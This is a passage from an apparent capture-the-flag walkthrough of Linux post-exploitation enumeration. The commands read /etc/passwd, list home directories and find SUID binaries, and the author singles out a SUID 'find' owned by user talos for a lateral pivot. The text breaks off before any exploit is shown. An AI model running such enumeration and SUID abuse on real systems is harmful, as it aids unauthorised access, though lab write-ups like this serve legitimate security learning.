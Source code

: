As the `www-data` user is not very useful to us, we need to find a way to pivot to side-pivot to another, more useful, user.

We find other users in this machine.

```
$ cat /etc/passwd
```

```
talos:x:1000:1000:Talos,,,:/home/talos:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
elohim:x:1001:1001::/home/gehenna:/bin/rbash
sml:x:1002:1002::/home/sml:/bin/bash
```

```
$ ls -la /home
```

```
drwxr-xr-x  4 elohim elohim 4096 Jul 14 11:25 gehenna
drwxr-xr-x  4 talos  talos  4096 Jul 14 07:26 talos
```

We look for files with suid:

```
$ find / -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/find
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
```

The `find` binary seems suspicious:

```
$ ls -la find
```

```
-rwsr-xr-x  1 talos root     224848 Jan  8  2023 find
```

So when we use `find` we are using it as the user `talos`.
We can take advantage of this abusing the binary.


If we check `/home/talos` we find a note:

```
$ ls -la /home/talos
```
